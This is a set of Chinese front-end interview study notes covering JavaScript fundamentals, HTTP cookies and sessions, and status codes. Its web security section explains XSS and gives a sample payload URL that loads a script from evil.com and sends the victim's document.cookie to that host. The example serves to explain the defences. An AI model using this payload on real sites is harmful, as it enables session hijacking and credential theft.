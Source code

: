 ## 常见前端面试题整理

### HTML

### CSS

### javascript

> js数据类型

基本数据类型：Undefined, Null, Boolean, Number, String, Symbol

复杂数据类型：Object

函数Function 是对象不是基本数据类型。  
但是typeof 操作符能够区分。  
`hint: typeof null == object.`

> js 原型和原型链的概念

`原型`是指prototype属性。并不是所有对象都有prototype属性的。  
prototype是每个function自带的属性。  

function的prototype 指向了其原型对象。  
原型对象的constructor 指向了function。

function new出来的对象，其\__proto\__属性指向了原型对象。

`原型链`的概念。
在js中，每个对象都有\__proto__属性指向原型对象，而原型对象也等于另一个类型的实例，因此它也包含指向另一个原型的指针。因而形成原型链。

原型链的顶端是null.
```javascript
Object.prototype.__proto__ === null;
Object.prototype 处于原型链的第二个
```

原型链用于实现继承。把一个函数的原型对象赋值为另一个函数的实例。

> js 变量提升

```javascript
var a = 'bbb';
// 即
var a;  // 提升至作用域顶部
a = 'bbb';
```


> js bind apply、call 的作用与区别

call 和apply 用于指定this的上下文。  
但是接受的参数不太一样。apply接受的第二个参数为数组
```javascript
var m = { x: 1 }
function foo (y) { console.log(this.x + y); }

foo.call(m, 5);
foo.apply(m, [5]);  

foo = foo.bind(m);  // bind之后能够作为函数来调用；返回新函数
foo(5)
```

> js 闭包概念

内部的function可以访问外部function的变量。因此当函数里返回一个函数的时候，内部的函数可以一直使用外部函数的变量一直到内部函数结束。从而实现变量私有化。

最简单的闭包
```javascript
function a () {
  var tmp = 1;
  return function b(value) {
    console.log(tmp + value)
  }
}
var c = new a();
c(2) // 3
```
闭包常见loop问题
```javascript
function createFun() {
  var result = new Array();
  for (var i = 0; i < 10; i++) {
    result[i] = function(num) {
      return function() {
        console.log(num);
      };
    }(i);
  }
  return result;
}
```

### HTTP
> cookie session 的实现和区别

由于HTTP是无状态协议，因此服务端需要记录用户的状态时，需要session机制来识别具体的用户。服务端为每个用户创建了特定的session，用于标示这个用户。  
在服务端保存session的方式有几种，常见的是，内存，数据库，和文件。

cookie是客户端保存用户信息的机制。session的实现一般需要在客户端的cookie存放一个sessionId。如果客户端禁用了cookie，那么就可以使用url重写来进行会话跟踪。

Web 服务器通过发送一个称为 Set-Cookie 的 HTTP 消息头来创建一个 cookie.
```javascript
Set-Cookie: value[; expires=date][; domain=domain][; path=path][; secure]
```

当存在一个 cookie，并允许设置可选项，该 cookie 的值会在随后的每次请求中被发送至服务器，cookie 的值被存储在名为 Cookie 的 HTTP 消息头中，并且只包含了 cookie 的值，忽略全部设置选项。
```javascript
Cookie: value1; value2; name1=value1
```
在js中，通过 document.cookie来获取cookie的值。
但是如果cookie的属性被设置成了HttpOnly,那么使用document.cookie也获取不到那个被设置为HttpOnly的cookie的值。
expires属性描述了cookie的过期时间

> Content-Type有哪些取值

 application/json
> Http状态码

100-199 信息性状态码

200-299 成功状态码  

300-399 重定向状态码 301永久移除  304 Not Modified

400-499 客户端错误 401没认证 404 Not Found

500-599 服务端错误 500服务器错误  502 Bad GateWay

### web安全

> xss攻击

跨站脚本攻击。cross site script 

常见的xss攻击方式: 在url中通过参数向服务端传入html 

例如 <img onerror="js code"> 从而执行js代码

或者在评论框之类处评论携带 攻击性的 代码。如果dom元素未转义，那么代码就会被执行。



防御措施：

1、编码，对输入数据进行 HTML Entity 编码。

​ 2、过滤；

+ 过滤上传的dom属性，比如onerror onclick等
+ 移除用户上传的style script iframe节点等

xss攻击成功了之后，常见的操作是获取用户的cookie，因为cookie存放了当前用户的登录凭证。从而发起cookie劫持。

3、校正。

+ 避免对HTML Entity进行编码。因为会影响正常用户的一些数据
+ 使用Dom Parse转换，矫正不配对的Dom标签。

举例：

http://www.a.com/test.htm?abc="><script src=http://evil.com/evil.js></script>

当用户点击这个链接的时候，黑客可以在evil.js中，创建一个图片，并把它的src设置为http://evil.com/document.cookie  从而在服务器的web记录中获取到它的cookie.





### 数据结构

### 算法
